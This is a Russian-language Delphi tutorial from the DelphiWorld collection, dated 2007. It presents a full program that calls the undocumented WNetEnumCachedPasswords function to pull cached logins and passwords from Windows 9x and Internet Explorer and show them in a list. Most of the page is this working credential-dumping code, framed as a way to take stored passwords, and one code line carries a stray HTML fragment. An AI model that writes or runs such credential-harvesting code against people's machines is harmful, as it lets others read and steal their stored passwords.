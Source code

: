 ```yaml
---
Title: Тянем пароли из кэша
Date: 01.01.2007
---
```



Тянем пароли из кэша
====================

::: {.date}
01.01.2007
:::

Так, сегодня мы рассмотрим как можно взять кэшированные пароли из 9x
винды, а также из винды, где в установленном виде есть 5-я иешка (хотя
может и 4-ой хватит:)

    unit Unit1;
     
    interface
     
    uses
      Windows, SysUtils, Classes, Forms, ShellAPI, Controls, StdCtrls;
     
    type
        TForm1 = class(TForm)
        GroupBox1: TGroupBox;
        ListBox: TListBox;
        Label1: TLabel;
        Label2: TLabel;
        procedure Label1Click(Sender: TObject);
        procedure FormShow(Sender: TObject);
      private
        { Private declarations }
      public
        { Public declarations }
        hMPR: THandle;
    end;
     
    // Отсюда мы можем заключить что должно валяться на форме,
    // надеюсь вы сами всё закидаете, а если нет, то вам дорога в хелпы.
     
    var
      Form1: TForm1;
     
    const
      Count: Integer = 0;
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; stdcall;
     
    implementation
    {$R *.DFM}
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; external mpr name 'WNetEnumCachedPasswords';
     
    // Объявляем функцию внешней, надеюсь вы поняли
    // каким макаром, или вам опять в хелпы
     
    type
      PWinPassword = ^TWinPassword;
      TWinPassword = record
      EntrySize: Word;
      ResourceSize: Word;
      PasswordSize: Word;
      EntryIndex: Byte;
      EntryType: Byte;
      PasswordC: Char;
    end;
     
    // Объявляем все типы, которые будем юзать в проге.
     
    var
      WinPassword: TWinPassword;
     
    // Собственно переменные :-)
     
    function AddPassword(WinPassword: PWinPassword; dw: DWord): LongBool; stdcall;
    var
      Password: string;
      PC: array[0..$FF] of Char;
    begin
      inc(Count);
      // Увеличиваем число паролей на 1
      Move(WinPassword.PasswordC, PC, WinPassword.ResourceSize);
      // Получаем в PC пароль
      PC[WinPassword.ResourceSize] := #0;
      CharToOem(PC, PC);
      Password := StrPas(PC);
      // После недолгих преобразований в Password имеем кэшированный логин
      Move(WinPassword.PasswordC, PC, WinPassword.PasswordSize + WinPassword.ResourceSize);
      Move(PC[WinPassword.ResourceSize], PC, WinPassword.PasswordSize);
      PC[WinPassword.PasswordSize] := #0;< BR> CharToOem(PC, PC);
      // Теперь в PC имеем пароль
      Password := Password + ': ' + StrPas(PC);
      // Разделяем логин и пароль двуеточием...
      Form1.ListBox.Items.Add(Password);
      // ...и добавляем в ListBox на форме
      Result := True;
      // Возвращаемся с положительным результатом
    end;
     
    procedure TForm1.Label1Click(Sender: TObject);
    begin
      // при нажатии на лэйбл открываем окошко ие с нашим любимым сайтом :-)
      ShellExecute(GetDesktopWindow, 'open', 'http://www.lamerov.net', nil, nil, 0);
    end;
     
    procedure TForm1.FormShow(Sender: TObject);
    begin
      // А теперь сама процедура заполнения всех паролей.
      if WNetEnumCachedPasswords(nil, 0, $FF, @AddPassword, 0) <> 0 then
      // Если не найден кэшированый пароль, то
      begin
        Application.MessageBox('Cant load passwords: User is not logon.',
        'Error', mb_Ok or mb_IconWarning);
        Application.Terminate;
        // Выдаем сообщение об этом
      end
      // иначе,
      else
      if Count = 0 then
        // если паролей всего 0 то тоже об этом сообщаем
        ListBox.Items.Add('No passwords found...');
    end;
     
    end.

Вы наверное спросите: как же все таки дельфи попадает туда куда нам
нужно, то есть на функцию обработки паролей и почемы она кэшит их всех,
хотя функцию вызывали всего одни раз, а очень просто. Помните строку
WNetEnumCachedPasswords(nil, 0, $FF, \@AddPassword, 0) так вот она все
и делает. Надеюсь вопросов не осталось.

<https://delphiworld.narod.ru/>

DelphiWorld 6.0
